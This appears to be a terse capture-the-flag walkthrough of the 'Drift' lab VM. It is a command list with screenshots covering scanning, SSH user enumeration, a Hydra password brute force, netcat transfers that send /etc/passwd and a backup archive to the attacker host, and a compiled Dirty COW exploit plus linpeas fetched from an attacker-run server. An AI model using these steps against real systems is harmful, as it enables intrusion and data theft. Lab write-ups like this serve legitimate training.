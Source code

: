 ﻿# Drift 192.168.56.106
## Andrea Zonnekus 18758119

sudo netdiscover -i eth0

![](drift_steps/Aspose.Words.8ee8a32b-7ed2-442c-b44e-1b67ea26dd77.001.png)

sudo nmap --vv -sS -sV --script="default or safe" 192.168.56.106 -Pn -oN host

![](drift_steps/Aspose.Words.8ee8a32b-7ed2-442c-b44e-1b67ea26dd77.002.png)

![](drift_steps/Aspose.Words.8ee8a32b-7ed2-442c-b44e-1b67ea26dd77.003.png)

sudo nmap --vv -sS -O --script="default or safe" 192.168.56.106 -Pn -oN os



dirb http://192.168.56.106 -o dirb -format text

![](drift_steps/Aspose.Words.8ee8a32b-7ed2-442c-b44e-1b67ea26dd77.004.png)

nikto -host http://192.168.56.106 -o nikto -Format text

![](drift_steps/Aspose.Words.8ee8a32b-7ed2-442c-b44e-1b67ea26dd77.005.png)



msfconsole

scanner/ssh/ssh\_enumusers

set user ssh

set user\_file /usr/share/legion/wordlists/ssh-user.txt

run

![](drift_steps/Aspose.Words.8ee8a32b-7ed2-442c-b44e-1b67ea26dd77.006.png)

![](drift_steps/Aspose.Words.8ee8a32b-7ed2-442c-b44e-1b67ea26dd77.007.png)

![](drift_steps/Aspose.Words.8ee8a32b-7ed2-442c-b44e-1b67ea26dd77.008.png)

![](drift_steps/Aspose.Words.8ee8a32b-7ed2-442c-b44e-1b67ea26dd77.009.png)

gobuster dir -u http://192.168.56.106 -x html,txt,php,bak --wordlist=/usr/share/wordlists/dirb/common.txt

![](drift_steps/Aspose.Words.8ee8a32b-7ed2-442c-b44e-1b67ea26dd77.010.png)

use a guide to find

![](drift_steps/Aspose.Words.8ee8a32b-7ed2-442c-b44e-1b67ea26dd77.011.png)

sudo gobuster vhost -u driftingblues.box --wordlist /usr/share/wordlists/dirb/common.txt

![](drift_steps/Aspose.Words.8ee8a32b-7ed2-442c-b44e-1b67ea26dd77.012.png)

sudo gobuster dir -u test.driftingblues.box --wordlist /usr/share/wordlists/dirb/common.txt

![](drift_steps/Aspose.Words.8ee8a32b-7ed2-442c-b44e-1b67ea26dd77.013.png)

![](drift_steps/Aspose.Words.8ee8a32b-7ed2-442c-b44e-1b67ea26dd77.014.png)

![](drift_steps/Aspose.Words.8ee8a32b-7ed2-442c-b44e-1b67ea26dd77.015.png)

hydra ssh://192.168.56.106:22 -L ssh\_users -P password -o brute -t 8

![](drift_steps/Aspose.Words.8ee8a32b-7ed2-442c-b44e-1b67ea26dd77.016.png)

sudo ssh <eric@test.driftingblues.box>

![](drift_steps/Aspose.Words.8ee8a32b-7ed2-442c-b44e-1b67ea26dd77.017.png)

cat user.txt

![](drift_steps/Aspose.Words.8ee8a32b-7ed2-442c-b44e-1b67ea26dd77.018.png)

ping 192.168.56.102

![](drift_steps/Aspose.Words.8ee8a32b-7ed2-442c-b44e-1b67ea26dd77.019.png)

nc -lvp 666 >> backup.zip

nc 192.168.56.102 666 < /tmp/backup.zip

![](drift_steps/Aspose.Words.8ee8a32b-7ed2-442c-b44e-1b67ea26dd77.020.png)

nc -lvp 666 >> passwd

nc 192.168.56.102 666 < /etc/passwd

![](drift_steps/Aspose.Words.8ee8a32b-7ed2-442c-b44e-1b67ea26dd77.021.png)

lscpu

![](drift_steps/Aspose.Words.8ee8a32b-7ed2-442c-b44e-1b67ea26dd77.022.png)

sudo python3 -m http.server 80

![](drift_steps/Aspose.Words.8ee8a32b-7ed2-442c-b44e-1b67ea26dd77.023.png)



sudo gcc dirty32.c -o cow32 -pthread

![](drift_steps/Aspose.Words.8ee8a32b-7ed2-442c-b44e-1b67ea26dd77.024.png)

sudo chmod +x cow32

![](drift_steps/Aspose.Words.8ee8a32b-7ed2-442c-b44e-1b67ea26dd77.025.png)

nc 192.168.56.106 4444 < cow32

nc -lvp 4444 >> cow32

![](drift_steps/Aspose.Words.8ee8a32b-7ed2-442c-b44e-1b67ea26dd77.026.png)

![](drift_steps/Aspose.Words.8ee8a32b-7ed2-442c-b44e-1b67ea26dd77.027.png)

wget http://192.168.56.102:80/linpeas.sh

![](drift_steps/Aspose.Words.8ee8a32b-7ed2-442c-b44e-1b67ea26dd77.028.png)



wget <http://192.168.56.102:80/linpeas.sh>

./pspy32

![](drift_steps/Aspose.Words.8ee8a32b-7ed2-442c-b44e-1b67ea26dd77.029.png)

![](drift_steps/Aspose.Words.8ee8a32b-7ed2-442c-b44e-1b67ea26dd77.030.png)

![](drift_steps/Aspose.Words.8ee8a32b-7ed2-442c-b44e-1b67ea26dd77.031.png)
